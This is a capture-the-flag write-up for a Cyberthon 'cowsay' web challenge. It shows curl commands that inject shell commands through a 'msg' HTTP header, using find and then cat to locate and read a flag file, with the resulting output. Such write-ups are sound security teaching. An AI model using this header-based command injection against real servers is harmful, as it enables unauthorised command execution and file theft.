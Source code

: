 ```yaml
---
ai_date: 2025-04-27 05:12:06
ai_summary: Flag retrieved by exploiting command injection through the 'msg' header
ai_tags:
  - cmd-inj
  - http-hdr
  - rce
created: 2024-06-11T01:33
updated: 2025-07-14T09:46
---
```


> We've got intel that APOCALYPSE has an important file within this webserver named "flag.txt".
>
> Please help us retrieve its contents.
>
> The URL for this challenge:
> http://chals.cyberthon22f.ctf.sg:40201

From the networking debugger tool, we can see that all escaping are done client side. So we can just send our own command.

We can also see that the command is sent via header called `msg`

```shell
## Cowsay
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40201/cowsay" \
     -H 'msg: "e" | find .. -name "flag.txt" -print'
```

```
 _________________________________ 
< ../usr/local/flag/here/flag.txt >
 --------------------------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Now we can simply read the file

```shell
## Cowsay
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40201/cowsay" \
     -H 'msg: "e" | cat "../usr/local/flag/here/flag.txt"'
```

```
 _________________________ 
< Cyberthon{1_L0V3_W4GYU} >
 ------------------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

There we have our flag